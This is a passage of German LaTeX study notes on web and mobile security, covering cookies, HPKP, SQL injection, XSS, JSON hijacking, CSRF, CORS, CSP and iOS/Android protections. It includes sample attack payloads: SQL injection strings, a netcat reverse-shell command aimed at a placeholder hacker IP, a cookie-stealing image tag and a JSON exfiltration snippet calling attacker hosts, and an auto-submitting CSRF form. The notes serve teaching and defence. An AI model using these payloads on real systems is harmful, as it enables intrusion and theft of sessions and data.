	
\includegraphics[width=0.6\linewidth]{images/cookie_creation_process}
	\caption{Cookie Creation Process}
	\label{fig:cookiecreationprocess}
\end{figure}

Ein Cookie kann über den ''Set-Cookie'' HTTP Response Header vom Server an den Client übermittelt werden. Das Cookie wird wieder an den Server zurückgesendet, wenn die Domain (und allenfalls Pfad oder Subdomain) übereinstimmen. Ein Cookie besteht aus folgenden grundlegenden Attributen:
\begin{description}
	\item[Name, Content:] Key Value Pair bestehend aus dem Cookie Namen und einem Wert
	\item[Domain:] Domain an welche das Cookie gesendet werden kann.
	\item[Path:] URL, an welche das Cookie übermittelt werden soll.
	\item[httpOnly:] Auf das Cookie kann nicht mit JS zugegriffen werden
	\item[isSecure:] Cookie wird nur über HTTPS übertragen
	\item[Expire:] Gültigkeitsdauer eines Cookies
\end{description}

Beispiele:

\begin{lstlisting}
Set-Cookie: lu=Rg3vHJZnehYLjVg7qi3bZjzg; Expires=Tue, 15 Jan 2013 21:47:38 GMT; Path=/; Domain=.example.com; HttpOnly
Set-Cookie: made_write_conn=1295214458; Path=/; Domain=.example.com
Set-Cookie: reg_fb_gate=deleted; Expires=Thu, 01 Jan 1970 00:00:01 GMT; Path=/; Domain=.example.com; HttpOnly
\end{lstlisting}

\subsubsection{Caches}
\paragraph{Clientseitig}
\begin{description}
	\item[File Cache:] Beinhaltet aufgerufene Ressourcen sowie evtl. Prediction-Loads.
	\item[History Cache:] Beinhaltet Aufrufehistory (inkl. POST Body, wenn \lstinline|200| OK als Antwort gekommen ist)
\end{description}

\paragraph{Serverseitig}
Serverseitig kann z.B im Apache das mod\_security aktiviert werden, um HTTP Bodies ebenfalls zu logen. Standardmässig wird dies jedoch nicht gemacht.
\begin{description}
	\item[Access Log:] Enthält die URLs die vom Browser aufgerufen werden.
	\item[Referer Log:] Enthält URLs, von welcher der Benutzer auf die Aufgerufene URL gekommen ist (per Link oder \lstinline|src|)
	\item[Error Log:] Enthält Aufrufsfehler auf Serverseite (z.B. \lstinline||404 Not Found|, \lstinline||500 Server Error| (Applikationsfehler), also vor allem 4xx,5xx.)
\end{description}

\subsection{Interception}
Um den HTTP Verkehr zu verändern und analysieren werden oft folgende Applikationen eingesetzt:
\begin{itemize}
	\item Browser Developer Tools
	\item ZAP Proxy: Der ZAP Proxy kann auch mit SSL umgehen, da er eine eigenen CA integriert hat. Die CA muss im Browser als vertrauenswürdig markiert werden.
	\item Burp Suite
\end{itemize}

\subsection{HTTP Public Key Pinning}
HPKP ist ein Mechanismus zum Absichern des HTTPS Protokolls. Es schützt gegen MitM Angriffe mit gefälschten, jedoch von einer anerkannten CA signierten Zertifikaten (sog. ''Rogue CAs''). Mit HPKP können die Hashes der akzeptierten Zertifikate oder CAs für eine Domain eingeschränkt (''gepinnt'') werden, wobei dies nach dem ''Trust on First Use'' Prinzip stattfindet. Dies bedeutet, wird der erste Aufruf bereits vom Angreifer verändert, hilft das Verfahren nichts. (deshalb zusätzliches Certificate Pinning) Der HPKP Eintrag hat eine beschränkte Gültigkeit.

Einige Browserhersteller (insbesondere Google Chrome) verankern durch Crawling gewonnene Domains mit langer HKPS-Zeit direkt im Browser.

Beispiel:

\begin{lstlisting}
Public-Key-Pins: max-age=2592000;
pin-sha256="E9CZ9INDbd+2eRQozYqqbQ2yXLVKB9+xcprMF+44U1g=";
pin-sha256="LPJNul+wow4m6DsqxbninhsWHlwfp0JecwQzYpOLmCQ="
\end{lstlisting}

\subsubsection{Denial of Service}
Wenn ein Angreifer den Private Key stehlen kann, und dieser somit ausgewechselt werden muss, kann dies mit HKPS als Denial of Service (DoS) betrachtet werden. Als Abhilfe ist es möglich, nur eine CA zu fixieren (kleineres Risiko) oder einen zweiten Key von Anfang an mit zu publizieren, damit ein nahtloses Rollover möglich ist. Vorgängig wird der zweite Key an einem sicheren Ort abgelegt und erst beim  Verlust des ursprünglichen Keys ersetzt.


\subsection{Session Fixation Attack}
Das Opfer kennt die Anmeldedaten, der Angreifer jedoch nicht. Um das Problem zu verhindern, muss der Server eine neue Session erstellen (der Inhalt wird jedoch von der alten Session übernommen). Das unterjubeln der Session wurde in der Praxis oft über die URL gemacht. Mit Cookies ist dies wesentlich schwieriger.

\newpage

\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.5\linewidth]{images/session_fixation}
	\caption{Session Fixation Attack}
	\label{fig:sessionfixation}
\end{figure}



\subsection{Same Origin Policy}
Die Same Orgin Policy besagt, dass Scriptsprachen (JS, Flash, ActiveX, etc.) nur auf Inhalte von der gleichen Origin zugreifen dürfen. \\
Ausnahme ist, wenn das Script mittels \lstinline|<script src="http://3rdpartysite.com/| eingebunden wird. Die 3rd Party Site kann dann auf die Cookies der Origin Site zurgreifen.
Zur Same Orgin Policy gehören folgende Attribute:
\begin{itemize}
	\item Protokoll (HTTP / HTTPS)
	\item Host (Subdomain ist ein andere Host)
	\item Port
\end{itemize}

\begin{figure}
	\centering
	
\includegraphics[width=0.5\linewidth]{images/sop}
	\caption{SOP: Same Origin Policy}
	\label{fig:sop}
\end{figure}


\subsection{STS: Strict Transport Security}
STS verhindert SSL Downgrade Attacken und forciert TLS. 


\section{SQL Injection}
Bei einer SQL Injection wird versucht, bösartige SQL Statements vom DB Interpreter ausführen zu lassen. Man versucht dabei zu erraten, wie das produktive SQL Statement aufgebaut ist und fügt dann den eigenen Code dazwischen ein. Dabei wird oft mit Tautologien oder UNION gearbeitet. Am Ende der Injection wird oft das Zeichen für einen Kommentar eingefügt, damit die restlichen produktiven Zeilen ignoriert werden. Gelingt eine SQL Injection, wird z.B. bei MySQL oft versucht, die \lstinline|sys| Tabellen der Datenbank auszulesen, um mehr Informationen über Tabellen und Spalten zur erhalten.
\begin{lstlisting}[language=Java]
string sqlQuery = "SELECT username FROM user 
				   WHERE username = '" + username + "' and password = '" + password + "'";
// SQL INJECTION
user||password = ' or 1=1 #comment or --comment
\end{lstlisting}

\begin{lstlisting}[language=SQL]
-- Union: Column number, type and encoding must match
SELECT firstname, lastname, title
FROM employees where city = ' 

' AND 1=2 -- Erste Query -> keine Resultate (da false)
 UNION ALL SELECT password, '',''
FROM users

--'
--^ Ende Originale SQL ist auskommentiert
\end{lstlisting}

\subsection{Time Based Blind SQL Injection}
Man spricht von einer Blind SQL Injection wenn der Server keine Fehlermeldungen anzeigt. Hacking Tools verwenden deshalb die Benchmark Funktionalität von modernen Datenbanken um herauszufinden ob der Angriff funktioniert hat. Wenn die SQL Injection funktionierte, dauert es meist lange bis die Response von dem Benchmark zurückgeliefert wird. Es gibt aber keine Garantie.

\subsection{MySQL UDF Injection}
Systeme sind oft gut durch eine Firewall gegen Angriffe von aussen geschützt. Im Gegensatz dazu, werden Zugriffe von innen nach aussen weniger überwacht. Bei der UDF Attacke (User defined function) wird über SQL eine netcat DLL eingeschleust. Anschliessend kann über netcat eine Reverse Shell geöffnet werden.

\begin{lstlisting}
nc [hacker-ip] -e cmd.exe
\end{lstlisting}

\subsection{Tools}
\begin{itemize}
	\item SQLMap
	\item xp\_cmdshell (Für MS SQL-Server. Führt via Stored Procedures CMD Kommandos auf dem OS aus)
\end{itemize}

\subsection{Massnahmen}
\paragraph{Verhinderung:} Dies sollte immer gemacht werden.


Escaping (Steuerungszeichen, z.B. \lstinline|\'|, \lstinline|\"|)

Alternativ: Whitelisting [A-Z, a-z, 0-9]* oder Blacklisting(INSERT INTO, 1=1, ')
\begin{itemize}
	\item Java: Prepared Statements
	\item .NET: Parameter Collections
	\item SQL: Stored Procedures
\end{itemize}

\paragraph{Erschweren:} Dies dient der Erschwerung des Zugriffs bzw. Schaden auf bestehende Applikationen, welche evtl. solche Lücken haben.
\begin{itemize}
	\item WAF: Web Application Firewall
	\item DB Least Privilege: Application User mit wenig Rechten, Rechte bei Stored Procedures
	\item DB nicht als Root ausführen
	\item Passwörter Hashen (SHA-256) und Salten (JPBKDF2, scrypt, bcrypt)
\end{itemize}


\section{XSS: Cross Site Scripting}
XSS Lücken entstehen, wenn eine Applikation User Data entgegennimmt ohne diese entsprechend zu validieren und den Inhalt zu escapen. Mit XSS sind unterschiedlichste Angriffe möglich, wie z.B Session Hijacking, Anpassen von Web Inhalten, Keystroke Logging, usw. Das Problem von XSS existiert, da man nicht übergreifend escapen kann (je nach Kontext. z.B würde der Name O'Brien immer falsch Angezeigt). Es gibt drei Arten von XSS: 

\subsection{Stored XSS}
Der Angreifer hinterlegt auf dem Server böshaftigen JS Code. Dieser Code wird an das Opfer ausgeliefert und ausgeführt. Der Code sendet dann z.B die Cookies des Opfers an eine Landing Page des Angreifers. (SOP eingehalten). Mit dem Cookie kann der Angreifer die Session des Opfers übernehmen (Session Hijacking) Das exfiltrieren von Informationen wird oft nicht über JavaScript, sondern mit einem Image Tag mit abgeänderter Source gemacht (um CORS zu umgehen).

\begin{lstlisting}
<img src="http://attacker./1x1.jpg?d=document.cookie" />
\end{lstlisting}

\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.6\linewidth]{images/stored_xss}
	\caption{Stored XSS}
	\label{fig:storedxss}
\end{figure}


\subsection{Reflected XSS}
Der Angreifer erstellt einen bösartigen Link mit JS Code. Inzwischen haben die Browser jedoch einen clientseitigen XSS Filter eingeführt. Dieser kann aber auch deaktiviert werden. Der Server kann das Feature aber forcieren (X-XSS-Protectection Header). Typischerweise wird die Suchform ausgenutzt.

\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.6\linewidth]{images/reflected_xss}
	\caption{Reflexted XSS}
	\label{fig:reflectedxss}
\end{figure}


\subsection{DOM-based XSS}
Auch hier wird eine bösartige URL erstellt, mit dem Unterschied, dass das Script nicht vom Webserver, sondern lokal vom Browser ausgeführt wird. 

\begin{lstlisting}
server_code#client_code_not_transmitted
\end{lstlisting}

\subsection{XSS Lücke identifizieren}
Man versucht HTML Tags in eine Input Form einzugeben und überprüft ob der übergebene Inhalt escaped wird. Anschliessend kann z.B eine XSS Shell über einen Script Tag eingebunden werden. Mit der XSS Shell lassen sich JS Scripte an alle Opfer ausliefern.

\subsection{Massnahmen}
Escaping zu HTML Entities: Transformiere gefährliche Zeichen in HTML Entitäten.

Dies sollte bei der Darstellung gemacht werden (z.B. beim Template Rendering), und \emph{nicht} beim entgegennehmen oder einfügen in die DB.

\paragraph{Beispiel:}
< $\rightarrow$ \&lt;


\subsubsection{Unterstützende Massnahmen}

um die Ausnutzung bestehender Lücken zu erschweren:

\begin{itemize}
	\item Client-seitige X-XSS Protection (Hilft nur gegen Reflected XSS)
	\item NoScript Plugin
	\item HttpOnly Flag bei Cookies gegen Session Hijacking.
	\item CSP: \lstinline|Content Security Policy: script-src 'self' mydomain.com|
\end{itemize}

\subsection{Tools} 
\begin{itemize}
	\item BeEf / Metasploit
\end{itemize}

\section{JSON Hijacking}
%TODO add description, check JSONP
\begin{itemize}
	\item Die Bank muss JSON mit AJAX über GET an das Opfer ausliefern.
	\item GET Parameter müssen bekannt oder eratbar sein
	\item Die Webseite muss ein Cookie basierendes Session Handling verwenden
	\item Das Opfer muss die Seite der Bank bereits besucht haben und anschliessend auf die Seite des Angreifer gelockt werden. 
	\item JSONP (JavaScript Object Notation with Padding) ist besonders anfällig für JSON Hijacking. Mit Plain JSON geht es nur in sehr alten Browser. Bei JSONP wird der Array Construktor überschrieben. 
\end{itemize}

\subsection{Vorgehen}
\begin{enumerate}
	\item Der Benutzer bekommt ein JS von der Hacker Seite
\begin{lstlisting}
// overloaded function
function invoke(data) {
	// exfiltrate
}

// load data from bank and exfiltrate over overloaded function
<script src="bank.com/action=getUserData&func=invoke"></script>
\end{lstlisting}
	\item Das JS lädt ein JSON Objekt von der Bank Seite
\begin{lstlisting}
invoke({
	"Username" : "hacker10",
	"Name" : "Fritz",
	"Creditcard" : "1323-4545-6767-8989"
})
\end{lstlisting}
	\item Das JS exfiltriert die Daten an die Hacker Seite
\begin{lstlisting}
// exfiltrate
new Image().src = [IP Landing Page] /?drop + escape(response)
\end{lstlisting}
\end{enumerate}

\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.7\linewidth]{images/json_hijacking}
	\caption{JSON Hijacking}
	\label{fig:jsonhijacking}
\end{figure}

\subsection{Abhilfe}
\begin{itemize}
	\item Kein JSONP verwenden, sonder CORS. (JSONP wurde für aus dem gleichen Grund verwendet)
	\item XSRF Tokens verwenden
	\item JSON Response mit \lstinline|while(true)| Loop beginnen. (Eher ein Hack)
\end{itemize}

\section{CSRF/XSRF: Cross-Site Request Forgery}
Das Opfer öffnet in einem zweiten Tab eine bösartige Webseite, welche wiederum eine bösartige Aktion auf der legitimen Seite ausführt. 

\subsection{Vorraussetzung}
\begin{itemize}
	\item Das Opfer ist auf der legtitimen Seite angemeldet
	\item Der Angreifer kennt die Funtionsweise der zu angreifenden Webseite und weiss das sein Opfer die Seite besucht.
\end{itemize}

\subsection{Varianten}
\begin{itemize}
	\item Inside Out Factory Reset
	\item Umkonfigurieren von DNS Einstellungen beim Router (Default Passwort muss bekannt und nicht geändert worden sein)
	\item XSRF über GET: Angreifer sendet einen Link zum Kauf eines überteuerten Produkts an das Opfer. (z.B auf Ricardo) Das Opfer klickt darauf und führt den Request aus (inkl. Cookies aus einer nebenläufigen Session)
	\item XSRF über POST: Manipulierte Webseite liefert JS aus, welches z.B eine Transaktion auf der eBanking Seite veranlasst. Auch hier muss das Cookie aus einer vorhergehenden Session beim Opfer liegen.
\end{itemize}

\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.7\linewidth]{images/csrf}
	\caption{CSRF / XSRF über GET}
	\label{fig:csrf}
\end{figure}

\paragraph{Manupulierte Webseite mit POST Parameter} \hfill
\begin{lstlisting}
<body>
	<form action="http://ebanking.com/controller" method="POST">
		<input type="hidden" name="action" value="transfer" />
		<input type="hidden" name="accountA" value="12345"*>
		<input type="hidden" name="accountA" value="54123" />
	</form>
	<script>
		document.forms[0].submit();
	</script>
</body>
\end{lstlisting}

\subsection{Massnahmen}
\begin{itemize}
	\item Random Tokens in der Form an den Client übertragen. Der Angreifer müsste diese korrekt raten.
	\item Wird das korrekte Token vom Client übertragen, wird die Transaktion durchgeführt, ansten nicht.
\end{itemize}

\section{CORS: Cross Origin Resource Sharing}
CORS ist ein Kompromiss zugunsten grösserer Flexibilität, um trotz SOP, Cross Origin Requests durchzuführen. CORS wird über HTTP Header gesetzt. Der Response Header wird vom Browser geprüft.
\begin{lstlisting}
// wildcard is bad
Access-Control-Allow-Origin: *

// allowed cross domain
Access-Control-Allow-Origin: http://foo.examle

// einschraenken auf http method
Access-Control-Allow-Methods: GET
Access-Control-Request-Headers: content-type,x-pingaruner
Origin: http://arunranga.com
\end{lstlisting}

\subsection{CORS Preflighted Request}
Es wäre gut wenn der Client bereits im vorhinein weiss, ob er mit der Cross Origin Domain sprechen darf. Ein Preflighted Request ist ein HTTP OPTIONS Request um einen Webserver zu fragen, was unterstützt wird. Der Server antwortet dann mit den CORS Header. Sind diese Ok, werden die Daten von dem Server geladen. \footnote{\url{https://developer.mozilla.org/en-US/docs/Web/HTTP/Access\_control\_CORS\#Preflighted\_requests}}

\subsection{CORS with Credentials}
Standardmässig wird bei einem XMLHttpRequest keine Credentials übermittelt (Cookies). Möchte man dass sich eine weitere Domain authentifizieren muss, muss der Header \lstinline|Access-Contro-Alllow-Credentials: true| gesetzt werden. 


\section{CSP: Content Security Policy}
Die CSP beschreibt, von wo ein Browser Daten laden darf. CSP ist ein Mittel, um die Konsequenzen von XSS weniger schlimm zu machen und wird ebenfalls über HTTP-Headers definiert. CSP folgt dem \emph{principle of least priviledge}. Das bedeutet, dass bei mehreren widersprüchlichen Policies jene mit den geringsten Berechtigungen verwendet wird.

\subsection{Default Policies}
\begin{itemize}
	\item No inline JS
	\item No JS in URL's
	\item No Event Handling Attributes (use \lstinline|element.addEventListener()|)
	\item No eval(), setTimeout(), setInterval()
\end{itemize}

\subsection{Header}
Folgende CSP Header können gesetzt werden: 
\begin{itemize}
	\item img-src: limit orgin of images
	\item style-src: css
	\item media-src: audio and video
	\item frame-src: iframes
	\item connect-src: XHR, WebSockets, EventSource
	\item font-src: fonts
	\item object-src: Flash, other plugin objects
	\item default-src: all (without scripts) Wenn die default-src auf ''none'' gesetzt wird, wird generall alles geblockt, ausser explizit erlaubtes (Whitelisting)
\end{itemize}

Beispiel für Apache:
\begin{lstlisting}[language=XML]
<IfModule mod_headers.c>
	Header set Content-Security-Policy: "default-src: 'none'; style-src: 'self'; img-src: 'self' "
</IfModule>

<-- allow from self and other -->
<IfModule mod_headers.c>
Header set Content-Security-Policy: "default-src: 'self' other.site.com; "
</IfModule>
\end{lstlisting}

Alternativ kann der meta Tag gesetzt werden. Davon ist aus Sicherheitsgründen jedoch eher abzuraten.

\begin{lstlisting}
<meta http-equiv="X-Content-Security-Policy" content="default-src: none">
\end{lstlisting}

\subsection{Modes}
Man unterscheidet zwischen zwei Modi:
\begin{enumerate}
	\item PROD: Policies werden vom Browser strikte durchgesetzt
	\item REPORTING / MONITORING: Browser setzt die Policies nicht durch, meldet jedoch Verletzungen an die Report URI.
\end{enumerate}

\begin{lstlisting}
Header set Content-Security-Policy-Report-Only \
"script-src 'self'; object-src 'self'; \
report-uri /cgi-bin/csp-report.php"
\end{lstlisting}

\subsection{Services}
\begin{itemize}
	\item \url{https://oxdef.info/csp-reporter/}
	\item Chrome CSP Tester
	\item Firefox SeecurityHeaders Extensions
\end{itemize}

\subsection{Angriffe}
\begin{itemize}
	\item Könnte ein Hacker die CSP auf einem Server verändern, könnte er z.B die Report URL auf seine Landing Page umleiten und somit, die aufgerufenen URL's abgreifen.
	\item Ebenfalls könnte er die CSP so restriktiv machen, dass die Seite nicht mehr geöffnet werden kann. (DoS). Dieser Angriff kann jedoch leicht erkannt und behoben werden.
\end{itemize}

\section{Mobile Security}
Mobile Geräte sind Computer, die man immer mit sich dabei hat, leichter verloren gehen und eine Menge von Sensoren (GPS, Micro, Camera, Bewegung, Temperatur etc.) mit sich bringen. Es lohnt sich deshalb die Sicherheit von Smartphones nicht zu vernachlässigen.

\subsection{iOS Basics}
iOS Apps werden in Objective-C, C oder Swift geschrieben. Jede App wird signiert und von Apple gereviewed. Die Security unter iOS wird als sehr gut erachtet.

\subsubsection{Sandbox und Permissions}
Unter iOS läuft jede App in einer eigenen Sandbox und kann nicht auf Inhalte aus anderen Apps zugreifen. Zusätzlich gibt es ein Permission Model, wobei die Berechtigung für eine Aktion erst dann abgefragt wird, wenn sie auch tatsächlich verwendet wird. (z.B Zugriff auf Kamera)

\subsubsection{File Protection}
Unter iOS sind alle Files verschlüsselt. Dabei ist ein Hardware Key in einem Crypto Chip hinterlegt, welcher als Master Key dient. Mit diesem Masterkey können dann weitere Schlüssel abgeleitet/entschlüsselt werden. (Class Key, File System Key, File Key). Löscht man den File System Key, kann kein File mehr entschlüsselt werden. Bei einem Remote Reset des iPhone muss deshalb nur der File System Key gelöscht/ersetzt werden.

\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.7\linewidth]{images/ios_encryption}
	\caption{iOS Data Protection API}
	\label{fig:iosencryption}
\end{figure}

\subsubsection{Keychain API}
Zusätzlich zur Data API gibt es auch noch die Keychain API für die Speicherung von Passwörter, PINs, private Keys, Zertifikaten. Die Keychain respektiert die Sandbox, was bedeutet, dass jede App seine eigenen Secrets in der Key Chain ablegen kann.


\subsection{Android Basics}
Android Apps werden in Java oder C geschrieben. Es gibt mehrere Provider von Android Varianten. Daraus resultiert, dass viele unterschiedliche Versionen im Umlauf sind. Ebenfalls können Apps, die nicht aus dem Google Play Store stammen installiert werden. Es sind deshalb mehr bösartige Apps im Umlauf.

\subsubsection{Sandbox und Permission}
Unter Android läuft jede App in einer eigenen JVM. Jede App hat seinen eigenen User auf dem Betriebssystem, welcher mit SELinux isoliert ist. Die App-Berechtigungen werden bei Android bereits zur Installationszeit gesetzt. Seit Android 6 können diese jedoch nachträglich verändert werden. Die Permissions sind im Android:Manifest hinterlegt.

\subsubsection{Disk Encryption und Keystore}
Die Funktionen die unter iOS verfügbar sind, wurden in Android erst später nachgereicht. Seit Version 4.3 gibt es auch eine KeyStore API und seit Version 5.0 eine Full Disk Encryption (FDE).

\subsubsection{Reverse Engineering}
Der Java Source Code wird von Dalvik in smali übersetzt. %TODO ART replaces Dalvik
\begin{figure}[h!]
	\centering
